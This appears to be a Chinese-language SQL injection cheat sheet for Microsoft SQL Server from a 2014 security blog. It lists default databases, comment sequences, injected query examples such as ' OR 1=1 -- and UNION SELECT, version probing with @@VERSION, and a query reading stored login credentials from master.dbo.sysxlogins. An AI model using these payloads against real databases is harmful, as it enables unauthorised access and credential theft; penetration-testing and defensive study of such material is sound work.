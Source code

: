 # MSSQL 注射知识库 v 1.0

2014/05/04 18:26 | [Xeyes](http://drops.wooyun.org/author/Xeyes "由 Xeyes 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

### 默认数据库

| pubs | 不适用于 MSSQL 2005 |
| model | 适用于所有版本 |
| msdb | 适用于所有版本 |
| tempdb | 适用于所有版本 |
| northwind | 适用于所有版本 |
| information_schema | 适用于 MSSQL 2000 及更高版本 |

### 注释掉查询

下面可以用来注释掉你注射后查询的其余部分：

| / * | C 语言风格注释 |
| -- | SQL 注释 |
| ; 00％ | 空字节 |

示例：

```
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3/*'; 
```

### 测试版本：

```
@@VERSION 
```

示例：

如果 MSSQL 的版本是 2008

```
SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%'; 
```

附：输出结果包含 Windows 操作系统的版本。

### 数据库凭据

| 数据库表 | master..syslogins, master..sysprocesses |
| 列名 | name, loginame |
| 当前用户 | user, system_user, suser_sname(), is_srvrolemember('sysadmin') |
| 数据库凭据 | SELECT user, password FROM master.dbo.sysxlogins |

